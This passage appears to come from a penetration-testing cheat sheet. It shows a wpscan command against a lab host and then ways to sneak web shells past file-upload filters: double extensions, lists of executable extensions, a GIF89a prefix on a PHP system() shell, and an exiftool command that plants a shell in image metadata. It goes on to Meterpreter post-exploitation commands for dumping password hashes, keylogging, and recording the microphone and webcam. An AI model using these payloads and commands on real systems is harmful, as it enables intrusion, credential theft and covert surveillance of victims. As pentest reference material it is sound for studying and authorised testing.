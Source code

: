       `sudo wpscan -u <http://cybear32c.lab/> --random-agent`

- Bypass File Upload Filtering
      One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.
  - Rename it
      We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as `php. php phtml, .php, .php3, .php4, .php5, and .inc`

      `asp asp, .aspx`

      `perl .pl, .pm, .cgi, .lib`

      `jsp .jsp, .jspx, .jsw, .jsv, and .jspf`

    - Coldfusion .cfm, .cfml, .cfc, .dbm
    - GIF89a; If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

      ```shell
      GIF89a;
      <?
      system($_GET['cmd']);//or you can insert your complete shell code
      ?>
      ```

  - In image
    - `exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg`
  - References:
      <http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html>
      <https://www.owasp.org/index.php/Unrestricted_File_Upload> <http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf>

## Loot Windows

### Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort. If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

- Show help of all commands: `-h`
- Dump windows hashes for further analysis: `hashdump`
- Keylogger

      ```shell
      keysscan_start
      keyscan_dump
      keyscan_stop
      ```
- Mic and webcam commands

      ```shell
      record_mic     Record audio from the default microphone for X seconds
      webcam_chat    Start a video chat
      webcam_list    List webcams
      webcam_snap    Take a snapshot from the specified webcam
      webcam_stream  Play a video stream from the specified webcam
      ```
